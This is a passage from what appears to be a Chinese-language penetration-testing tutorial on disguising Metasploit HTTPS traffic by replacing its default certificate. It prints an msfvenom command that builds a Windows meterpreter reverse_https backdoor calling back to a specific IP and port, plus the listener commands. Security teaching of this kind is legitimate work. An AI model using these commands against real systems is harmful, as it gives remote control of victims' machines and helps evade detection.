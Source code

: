 <img src=".\图片\Snipaste_2023-01-06_11-27-13.png" alt="Snipaste_2023-01-06_11-27-13" style="zoom:60%;" />

当我们不修改 msf 的证书时，它使用的是自带的证书，很容易被识别到，所以我们用 openssl 来修改证书

#### 未修改https证书

接下来我们生成 msf-https 的后门来分析

```
msfvenom -p windows/meterpreter/reverse_https LHOST=43.142.255.132 LPORT=5577 -f exe -o https.exe
```

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 5577
run
```

